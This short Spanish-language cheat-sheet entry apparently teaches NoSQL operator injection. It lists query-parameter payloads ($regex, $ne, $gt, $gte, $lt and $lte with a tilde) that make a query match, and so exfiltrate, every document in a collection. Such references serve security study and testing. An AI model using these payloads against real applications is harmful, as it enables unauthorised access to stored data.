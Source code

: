 ## INFO

Podemos aprovechar los operadores para forzar una exfiltración de toda la data de una colección:

### Regex:

variable[$regex]=.\*

### No-Match

variable[$ne]=noexistente

### Length

En este caso los terminos a buscar van en blanco.

Buscar todos los documentos que sean mayores que

    variable[$gt]=

Buscar todos los documentos que sean mayores o iguales a

    variable[$gte]=

### TILDA
Usamos la tilda para buscar todos los datos que sean menores a la misma (tilda es el valor imprimible más largo de los valores ASCII).

    variable[$lt]=~

Misma lógica con menor o igual:

    variable[$lte]=~

